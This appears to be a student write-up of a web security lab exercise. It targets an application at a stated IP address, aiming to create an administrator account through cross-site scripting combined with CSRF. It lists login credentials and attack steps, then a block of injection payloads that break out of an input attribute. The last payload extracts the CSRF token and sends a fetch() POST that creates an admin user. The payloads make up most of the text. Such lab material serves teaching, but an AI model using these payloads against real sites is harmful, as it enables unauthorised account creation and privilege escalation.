

# Cross-site scripting (XSS)

### Attack purpose:

- http://193.226.5.99/websec4
- Create an administrator account with the username:
    - [`first_letter_of_first_name`].[`last_name`]
    - e.g. t.stefanut

### Attack steps:

- Authenticate in the application with: `user3` / `pass`
- Make an analysis to find vulnerabilities
- Find a way to exfiltrate CSRF token
- Use the token and CSRF attack to create the account

### User journey:

- Attacker’s page with a link / automated redirection
- Page on the attacked server (legitimate page)
- Attacker’s page with a link / automated redirection
- Page on the attacked server (legitimate page)

## Vulnerabilities





```

" /> <script src="unsafe-inline"> console.log("vulnerability discovered!") </script> <input value="

" /> <script> console.log("vulnerability discovered!") </script> <input value="

aaaa" /> <input value="

bia" /><input type="button" value="Click Me" onclick="alert('Admin Account Created')" style="cursor: pointer;">
<input value="bia

bia" /><style>
    body {
        background-image: url('data:image/svg+xml;utf8,<svg xmlns="http://www.w3.org/2000/svg"><script>alert("Admin Account Created")</script></svg>');
    }
</style>
<input value="bia


" /> <script>
    // Extract the CSRF token
    var csrfToken = document.querySelector('input[name="csrf"]').value;

    // Construct the POST request payload
    var payload = "csrf=" + csrfToken + "&username=b.mitroi&password=bmitroi123&role=admin";

    // Send the POST request using Fetch API
    fetch("http://193.226.5.99/websec4/index.php", {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: payload
    })
    .then(response => response.text())
    .then(data => console.log("Account creation response:", data))
    .catch(err => console.log("Error:", err));
</script> <input value= "
```